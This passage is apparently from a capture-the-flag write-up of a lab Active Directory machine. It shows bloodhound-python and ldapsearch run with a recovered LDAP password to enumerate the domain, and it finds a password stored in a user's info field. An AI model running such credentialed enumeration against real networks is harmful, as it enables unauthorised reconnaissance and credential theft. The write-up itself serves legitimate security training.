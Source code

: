 Whenever I find creds on Windows, I’ll run Bloodhound. Since I don’t have a shell, I’ll use the Python version:

```
oxdf@hacky$ bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
INFO: Found AD domain: support.htb
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 13S
```

I’ll load that info into Bloodhound, and mark ldap as owned. Looking at outbound control, there’s nothing really interesting.

### LDAP

`ldapsearch` will show all the items in the AD, which I can look through:

```
oxdf@hacky$ ldapsearch -h support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"| less
```

There’s a user named support with an interesting `info` field:

```
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
...[snip]...
```
